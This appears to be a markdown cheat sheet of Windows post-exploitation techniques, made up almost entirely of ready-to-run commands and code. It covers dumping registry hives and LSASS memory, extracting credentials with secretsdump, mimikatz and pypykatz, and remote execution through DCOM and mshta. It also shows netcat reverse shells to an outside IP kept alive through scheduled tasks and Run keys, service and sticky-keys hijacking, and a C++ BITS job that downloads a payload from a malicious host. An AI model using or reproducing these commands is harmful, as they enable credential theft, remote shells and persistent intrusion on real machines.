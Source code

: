 

- ##### To dump the SAM, SECURITY AND SYSTEM registry hives :
```powershell
reg save HKLM\SAM SAM & reg save HKLM\SECURITY SECURITY & reg save HKLM\SYSTEM SYSTEM
```





- Extracting credentials from SAM, SECURITY AND SYSTEM hives using impacket-secretsdump.
```powershell
secretsdump.py -sam <SAM> -system <SYSTEM> [-security <SECURITY>] LOCAL
```





- ##### Code Execution with COM/DCOM on a remote host:
```powershell
$com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","TARGET IP"))
$com.Document.ActiveView.ExecuteShellCommand("C:\Windows\System32\Calc.exe",$null,$null,"7")
```




- ##### Executing an hta file from a remote url with mshta:
```powershell
mshta.exe http://192.168.180.84/pwn.hta 
```




- Creating and deleting a scheduled task(persistence):
```powershell
schtasks /create /sc minute /mo 2 /tn "Gibh me shell" /tr 'C:\Users\drbrown.HOSPITAL\Documents\nc.exe 10.10.16.54 4444 -e cmd.exe'

schtasks /delete /tn "Gibh me shell" /f
```





-  Enumerating SMB hosts in a network with nbtscan:
```powershell
nbtscan –v –s : x.x.x.x/24 | cut -d “:“ –f 1 > smb-hosts.txt
```





- Establishing Persistence via registry keys:
```powershell
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v "Not Malware" /t REG_SZ /d "C:\Users\drbrown.HOSPITAL\Documents\nc.exe 10.10.16.54 4444 -e cmd.exe"
```





- Dumping LSASS memory with comsvcs.dll:
```powershell
rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump 632 lsass.dmp full
```





- Extracting creds from the LSASS dump using mimikatz and pypykatz:
```powershell
mimikatz # sekurlsa::minidump lsass.dmp
mimikatz # sekurlsa::logonpasswords 



pypykatz lsa mimidump lsass.dump
```





- Dumping SAM,SECURITY AND SYSTEM registry hive on hardened system by creating a shadow copy using wmic:
```powershell
#Creating the shadow copy of the C:\ Drive
wmic shadowcopy call create Volume='C:\'


# Lists the shadow copy volume configured in order to retrieve the created shadow copy ID.
wmic shadowcopy


# Dumping the registry hives
cmd.exe /c "copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy<ID>\Windows\System32\config\SAM
<EXPORTED_SAM>"

cmd.exe /c "copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy<ID>\Windows\System32\config\SYSTEM
<EXPORTED_SYSTEM>"

cmd.exe /c "copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy<ID>\Windows\System32\config\SECURITY
<EXPORTED_SECURITY>"

# delete all instances of shadowcopy volumes.
wmic delete
```




- Parsing Bloohound's `user.json` file to look for credentials in the userdescrption:
```bash
cat users.json | jq '.data[].Properties | select(.enabled==true) | .name + " " + .description'
```



- Modifying an existing service for persistence 
```powershell

sc.exe list state=all #List all the services
sc.exe qc <TargetService> #retrieve info about the service

sc.exe config <TargetService> binpath="pathtomaliciousexe" start=auto obj="Local System" #Manipulating the exe path and setting to run as system on startup

```




- Abusing Symlinks for persistence (Accessibility):

A symlink is a type of file that contains a reference to another file or directory.In this context, an attacker would create a symlink that points from a legitimate Accessibility feature executable (like sethc.exe for Sticky Keys) to a malicious executable. When the system or a user tries to access the original file or feature, they are unknowingly redirected to the malicious file.

```C++
#include <windows.h>

#include <iostream>

int main() {

// Path to the legitimate binary (e.g., Sticky Keys)

const char* legitBinaryPath ="C:\\Windows\\System32\\sethc.exe";

// Path to the malicious binary

const char* maliciousBinaryPath ="C:\\path\\to\\malicious.exe";

// Delete the original file (requires administrative privileges)

DeleteFile(legitBinaryPath);

// Create the symbolic link
CreateSymbolicLink(legitBinaryPath, maliciousBinaryPath, 0) 
return 0;

}
```



- Abusing BITSADMIN for persistence

BITS (Background Intelligent Transfer Service) is a component of Microsoft Windows, which facilitates asynchronous,prioritized, and throttled transfer of files between machines using idle network bandwidth. BITS is commonly used for Windows updates and other background downloads. BITS jobs can be configured to retry upon failure and can persist across reboots, they offer a stealthy way to ensure that malicious payloads are consistently updated or downloaded.


```C++
#include <bits.h>

#include <windows.h>

#include <iostream>

int main() {

HRESULT hr;

IBackgroundCopyManager *pBitsManager = NULL;

IBackgroundCopyJob *pJob = NULL;

GUID jobGUID;

CoInitialize(NULL);

CoCreateInstance(__uuidof(BackgroundCopyManager), NULL, CLSCTX_LOCAL_SERVER, __uuidof(IBackgroundCopyManager), (void**)&pBitsManager);

pBitsManager->CreateJob(L"Malicious Download", BG_JOB_TYPE_DOWNLOAD, &jobGUID, &pJob);

pJob->AddFile(L"http://malicious.example.com/payload.exe"
, L"C:\\path\\to\\local\\payload.exe");

pJob->SetMinimumRetryDelay(60); // Retry after 60 seconds if failed
pJob->SetNoProgressTimeout(604800); // 1 week timeout for job completion
pJob->SetFlags(BG_JOB_ENUM::BG_JOB_TYPE_DOWNLOAD | BG_JOB_ENUM::BG_JOB_PERSISTENT);

pJob->Resume();
pJob->Release();
pBitsManager->Release();
CoUninitialize();
return 0;
}
```




- Reading senstive data from xml files:
```powershell
Import-CliXml -Path '<path to the xml file>'
```


- browsing the directory tree in mssql server:
```SQL
EXEC xp_dirtree "path", 1, 1;
```



- Modifying the registry to execute a command/binary whenever the user logs in: (Need Admin Access)

```powershell
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Winlogon" /v "mpnotify" /t REG_SZ /d "The command to be executed"


```

